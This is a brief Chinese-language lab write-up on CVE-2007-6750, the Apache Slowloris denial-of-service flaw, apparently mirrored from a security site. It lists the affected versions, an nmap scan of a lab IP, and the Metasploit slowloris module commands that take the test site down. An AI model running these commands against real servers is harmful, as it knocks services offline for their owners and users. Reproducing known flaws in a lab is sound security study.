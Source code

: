 # （CVE-2007-6750）Apache ddos

> 原文：[http://book.iwonder.run/0day/Apache/1.html](http://book.iwonder.run/0day/Apache/1.html)

## 一、漏洞简介

Apache HTTP 服务器 1.x 和 2.x 允许远程攻击者通过部分 HTTP 请求导致拒绝服务(守护进程中断)，如 Slowloris 所示，这与 2.2.15 之前版本中缺少 mod_ReqTimeout 模块有关

## 二、漏洞影响

Apache 1.x/2.x

## 三、复现过程

nmap -sV -p80 192.168.146.175(用 nmap 查看 Apache 版本)(Apache2.2.3 初步断定存在漏洞)

<center>![image](img/87522d113559034193db5a396c5f6969.png)</center>

接着访问网站查看是否正常(发现网站正常)

<center>![image](img/42d9e7bf498cbd13c964d93a6984a1f3.png)</center>

```
msfconsole(启动 metasploit)

use auxiliary/dos/http/slowloris(使用模块)

set RHOST 192.168.146.175(设置目标 IP)

run(执行攻击) 
```

<center>![image](img/d81e8c5c771e6be80de415c3fc0c9448.png)</center>

再访问网站查看是否正常(发现网站瘫痪)

<center>![image](img/aae624ce7aa660916fea08e7fff0cf54.png)</center>

## 四、参考链接

> [https://www.jsxlo.com/cve-2007-6750/](https://www.jsxlo.com/cve-2007-6750/)

